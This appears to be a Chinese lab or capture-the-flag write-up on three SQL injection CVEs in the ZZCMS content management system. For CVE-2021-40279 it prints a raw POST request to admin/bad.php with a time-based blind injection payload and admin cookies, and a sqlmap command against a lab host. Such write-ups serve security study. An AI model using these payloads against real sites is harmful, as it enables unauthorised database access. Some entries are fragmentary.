 ## CVE-2021-40281 zzcms注入

*靶标介绍：*

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.3中dl/dl_print.php存在sql注入

同上

## CVE-2021-40280 zzcms注入

*靶标介绍：*

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.2中在admin/dl_sendmail.php存在sql注入漏洞

/uploadimg_form.php?noshuiyin=1&imgid=2

image/jpeg

## [待]CVE-2021-40279 zzcms注入

*靶标介绍：*

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms2021在admin/bad.php中存在sql注入

参考

https://gist.github.com/aaaahuia/b99596c6de9bd6f60e0ddb7bf0bd13c4

```
POST /admin/bad.php HTTP/1.1
Host: your host
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Origin: http://zzcms.com
Connection: close
Referer: http://zzcms.com/admin/bad.php
Cookie: askbigclassid=0; asksmallclassid=0; __tins__713776=%7B%22sid%22%3A%201629992898141%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201629995107025%7D; __51cke__=; __51laig__=20; bdshare_firstime=1629951198125; PHPSESSID=a5tlfr6q1ete0aaa6dq5pppi43; admin=admin; pass=21232f297a57a5a743894a0e4a801fc3; UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6
Upgrade-Insecure-Requests: 1

action=del&id[0]=0&id[1]=1 AND (SELECT 5584 FROM (SELECT(SLEEP(9)))a)
```

```
sqlmap -u "http://eci-2zegbwom8tun99c0wdzl.cloudeci1.ichunqiu.com/admin/bad.php" --cookie="admin=admin; pass=21232f297a57a5a743894a0e4a801fc3;" --method POST --data "action=del&id[0]=0&id[1]=1" -p id[1] --tamper="between.py" --flush-session --current-user --batch
```
